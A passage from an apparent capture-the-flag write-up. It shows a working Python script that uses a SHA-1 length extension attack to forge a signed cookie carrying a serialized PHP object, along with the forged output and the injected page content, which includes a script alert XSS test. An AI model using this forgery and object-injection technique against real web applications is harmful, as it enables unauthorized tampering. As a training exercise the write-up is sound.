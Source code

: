 ```
O:4:"Post":3:{s:8:"\x00*\x00title";s:4:"Test";s:7:"\x00*\x00text";s:4:"text";s:10:"\x00*\x00filters";a:0:{}}
```
Note the `\x00` around the * which is standard for php protected variables. If you don't include them the `unserialize()` will fail.

Now let's modify our script from above to regenerate our cookie

```python
import hlextend
import urllib
exploit = """

O:4:"Post":3:{s:8:"\x00*\x00title";s:4:"Test";s:7:"\x00*\x00text";s:4:"text";s:10:"\x00*\x00filters";a:0:{}}
"""
sha = hlextend.new('sha1')
data = sha.extend(exploit,'b:1;', 8, '2141b332222df459fd212440824a35e63d37ef69')
print 'custom_settings:  ' + urllib.quote_plus(data.replace('\\x','%'))
print 'custom_settings_hash:  ' + sha.hexdigest()
```
Note the `\n` before our post, which ensures it is split into a separate array index when we run
```php
$settings_array = explode("\n", $custom_settings);
```
We get the output:
```
custom_settings:  b%3A1%3B%2580%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%60%0A%0AO%3A4%3A%22Post%22%3A3%3A%7Bs%3A8%3A%22%00%2A%00title%22%3Bs%3A4%3A%22Test%22%3Bs%3A7%3A%22%00%2A%00text%22%3Bs%3A4%3A%22text%22%3Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A0%3A%7B%7D%7D
custom_settings_hash:  22fae79c8ba8c81ad05de3aa3fad448ac07ec7f7

```
When this is entered into Steve's list, this appears at the bottom:
```html
<!-- POST Test: text --><!-- POST 0wn3d by D43d4lu5 C0rp: OWNED OWNED OWNED OWNED OWNED OWNED SECTION CHIEF STEVE IS THE WORST<br><img src='./daedalus.png'><br><script>alert(1);</script><marquee>rekt</marquee><br><br><blink>we changed your secret</blink><br><br><marquee><blink>bet you'll never get control of this site back</blink></marquee><br><blink>look at this top quality tag we added</blink> --><!-- POST I'm Section Chief Steve: I'm the best.<br>The very best.<br><img src='./Steve.png'> -->
```
Success! We see our object `<!-- POST Test: text -->` has been injected successfully! We still need to figure out how to exploit this all to get the flag though...

As it turns out, the answer is not far away. Going back to `objects.php` let's take a look at the filter class:

```php

class Filter {
    protected $pattern;
    protected $repl;
    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }
  };

```